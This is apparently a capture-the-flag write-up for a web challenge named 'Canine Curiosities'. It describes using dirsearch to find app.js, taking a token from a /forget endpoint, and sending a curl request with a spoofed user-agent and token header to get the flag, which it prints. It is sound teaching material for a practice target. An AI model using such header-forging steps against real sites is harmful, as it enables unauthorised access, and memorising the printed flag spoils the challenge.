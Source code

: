 # Canine Curiosities
- Used dirsearch on url: https://canine-curiosities.vercel.app to find [url/app.js](https://canine-curiosities.vercel.app/app.js)  .

- Found token from [url/forget](https://canine-curiosities.vercel.app/forget) and then uses 'cux' as user-agent to retrieve flag from [url/fact](https://canine-curiosities.vercel.app/fact) .

- Used the following command in terminal :
    ```
  $ curl -H "user-agent:cux" -H "token:fec62644-6db3-11ee-a34a-505bc2eeff4f" https://canine-curiosities.vercel.app/fact
    ```
- Got the following result:
    ```
    {"fact":"cruXipher{m0n15h4_f0R_pR0m_qV33n}"}
    ```

## Flag
```
cruXipher{m0n15h4_f0R_pR0m_qV33n}
```
